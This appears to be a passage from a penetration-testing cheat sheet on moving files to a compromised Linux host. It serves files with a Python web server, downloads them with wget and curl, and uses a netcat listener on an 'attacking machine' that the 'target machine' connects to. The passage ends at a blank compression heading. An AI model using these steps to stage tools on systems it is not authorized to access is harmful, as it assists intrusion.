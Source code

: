


# Linux

## Python Web server

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
python -m SimpleHTTPServer 9999
```

> By default it will listen on port 8000

## Wget

You can download files using `wget` like this:

```text
wget 192.168.1.102:9999/file.txt
```

## Curl

```text
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

### Compression

Quick and simple way to transfer files or whole directories.
